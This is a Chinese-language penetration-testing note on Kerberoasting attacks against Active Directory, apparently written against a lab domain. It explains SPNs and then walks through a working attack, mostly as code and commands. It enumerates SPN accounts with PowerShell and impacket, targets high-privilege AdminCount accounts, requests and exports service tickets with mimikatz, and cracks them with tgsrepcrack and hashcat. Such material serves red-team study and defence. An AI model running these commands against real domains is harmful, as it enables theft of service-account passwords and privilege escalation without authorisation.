



## Kerberoasting

### **SPN(Service Principal Name)**

SPN，即Service Principal Name，客户端通过Kerberos请求使用某种服务时，会在请求中附带上需要访问的服务的SPN名称，如文件共享服务cifs/DNS_DOMAIN_NAME，目录访问服务ldap/DNS_DOMAIN_NAME。KDC（密钥分发中心）将通过SPN来确定客户端请求访问的是主机上的哪个具体服务，因为一个主机上通常情况下同时提供多种支持Kerberos认证的服务，随后，KDC将使用该服务账号的密码哈希来对票据进行加密。



一般格式长这样:

```
service_class/hostname_or_FQDN
service_class/hostname_or_FQDN:port
service_class/hostname_or_FQDN:port/arbitrary_name
```

SPN不会重复，指定重名的SPN会报错。


### Kerberoasting原理

只要有合法的TGT，指定SPN就可以申请TGS Ticket；Ticket被service account Hash加密，如果能暴力破解解密成功，则能获得service account的明文密码。一般情况下，服务都是运行在computer account (MACHINENAME$)下，密码都是随机、复杂的，很难暴力破解；如果有一个服务(如MSSQLSvc)是在user account下运行，其密码是人指定的，暴力破解的难度就降低了。

可以查找带有SPN值的账户，也可以在取得了SPN的修改权限后、手动添加一个SPN；最后经过破解后获得明文口令。Kerberoasting攻击步骤如下：

1. **Scan Active Directory for user accounts with SPN values set.** 
2. **Request service tickets from AD using SPN values**
3. **Extract service tickets to memory and save to a file**
4. ***Brute force attack those passwords offline until cracked***


### Kerberoasting利用一

参考：[EXTRACTING SERVICE ACCOUNT PASSWORDS WITH KERBEROASTING](https://stealthbits.com/blog/extracting-service-account-passwords-with-kerberoasting/)


**Step 0: 为域管账户设置一个SPN，用于后续演示**

```
setspn.exe -U -S VNC2/ringdc-pc.ring2.com Administrator
```

**Step 1:  查找带有SPN的user account**

powershell

```
#Build LDAP Filter to look for users with SPN values registered for current domain
$ldapFilter = "(&(objectclass=user)(objectcategory=user)(servicePrincipalName=*))"
$domain = New-Object System.DirectoryServices.DirectoryEntry
$search = New-Object System.DirectoryServices.DirectorySearcher
$search.SearchRoot = $domain
$search.PageSize = 1000
$search.Filter = $ldapFilter
$search.SearchScope = "Subtree"
#Execute Search
$results = $search.FindAll()
#Display SPN values from the returned objects
foreach ($result in $results)
{
    $userEntry = $result.GetDirectoryEntry()
    Write-Host "User Name = " $userEntry.name
    foreach ($SPN in $userEntry.servicePrincipalName)
    {
        Write-Host "SPN = " $SPN       
    }
    Write-Host ""    
}
```


impacket/GetUserSPNs.py

```
GetUserSPNs.py -target-domain ring2.com ring2/win10:Test1234
```


[kerberoast](https://github.com/nidem/kerberoast)/GetUserSPNs.ps1

```
.\GetUserSPNs.ps1
```


可以查找AdminCount=1的user account，表示这是一个受保护账户，因此几乎总是具有高度特权；显然，破解这样的账户更有价值。

```
//Active Directory模块
get-aduser -filter {AdminCount -eq 1 -and (servicePrincipalName -ne 0)} -prop * |select name,whencreated,pwdlastset,lastlogon,serviceprincipalname,memberof

//PowerSploit
Get-NetUser -spn -AdminCount | Select name,whencreated,pwdlastset,lastlogon,serviceprincipalname,memberof
```


**Step 2: TGS请求**

```
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'VNC2/ringdc-pc.ring2.com'
```


**Step 3: 导出TGS Ticket**

```
mimikatz # kerberos::list /export
```




**Step 4: 暴力破解TGS Ticket中的用户密码**

```
// https://github.com/nidem/kerberoast
python tgsrepcrack.py pass.txt "..\1-40a10000-win10@VNC~ringdc-pc.ring2.com-RING2.COM.kirbi"
```


**Step 5: 清除SPN**

```
setspn.exe -D VNC2/ringdc-pc.ring2.com Administrator
```


### Kerberoasting利用二

[Kerberoasting Without Mimikatz](https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/)

将前3步整合到一起，直接输出John Ripper或hashcat格式数据，用于第四步暴力破解

```
// PowerSploit/Invoke-Kerberoast
Invoke-Kerberoast  -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
```

```
hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```



